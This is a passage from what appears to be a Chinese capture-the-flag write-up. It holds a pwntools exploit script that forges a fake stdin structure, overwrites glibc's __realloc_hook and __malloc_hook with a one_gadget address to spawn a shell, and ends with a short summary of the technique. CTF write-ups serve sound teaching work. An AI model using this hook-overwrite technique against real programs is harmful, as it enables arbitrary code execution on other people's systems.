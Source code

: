 ```

#forge fake stdin
sh.recvuntil('&gt;&gt;')
exp = p64(0xfbad208b)                    #stdin-&gt;_IO_buf_base = __realloc_hook-0x8
exp+= p64(libc.symbols['__realloc_hook']-0x8)*7
exp+= p64(libc.symbols['__realloc_hook']+0x10)
sh.send(exp)

OGG = [0x4f3c2, 0x10a45c]
ones = libc.address + OGG[1]            #requirement: [rsp+0x70] == NULL
Log('ones')

#control hook
for i in range(5):
    sh.recvuntil('&gt;&gt;')
exp = p64(0xdeadbeef)                    #read buffer
exp+= p64(ones)                            #__realloc_hook
exp+= p64(libc.symbols['realloc']+6)    #__malloc_hook 
sh.send(exp)

#gdb.attach(sh, 'break calloc')

#trigger
Cmd(1)
Cmd(1)
sh.recvuntil('Alloc Size: ')
sleep(0.5)
sh.sendline('1')
sh.recvuntil('Read Size: ')
sleep(0.5)
sh.sendline('1')


sh.interactive()

'''
telescope 0x0000555555554000+0x202018
'''
```



## 总结
- 由于只有一个calloc，因此难以通过堆机制来解题，需要从IO来解题
- 00任意写stdout，满足_IO_read_end == _IO_write_ptr，从而泄露地址
- 00任意写stdin，让其缓冲区偏移到自身从而控制整个stdin，来实现任意写
- 由于只有calloc，所以只能利用OGG来getshell，再通过realloc抬栈来满足OGG要求